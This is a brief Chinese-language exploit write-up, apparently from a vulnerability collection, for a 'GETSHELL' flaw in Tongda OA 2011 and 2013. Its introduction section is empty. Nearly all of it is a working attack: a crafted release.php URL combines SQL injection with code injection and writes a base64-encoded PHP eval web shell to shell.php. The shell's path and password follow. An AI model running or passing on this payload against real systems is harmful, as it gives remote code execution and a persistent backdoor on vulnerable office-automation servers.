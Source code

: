 ```yaml
---
title: 通达oa 2011-2013 通杀GETSHELL
id: zhfly3331
---
```


# 通达oa 2011-2013 通杀GETSHELL

## 一、漏洞简介

## 二、漏洞影响

2011、2013版本

## 三、复现过程

第一步:

```
http://0-sec.org/general/crm/studio/modules/EntityRelease/release.php?entity_name=1%d5'%20or%20sys_function.FUNC_ID=1%23%20${%20fputs(fopen(base64_decode(c2hlbGwucGhw),w),base64_decode(PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz5vaw))} 
```

第二步:

```
http://0-sec.org/general/email/index.php 
```

SHELL:

```
http://0-sec.org/general/email/shell.php 密码C 
```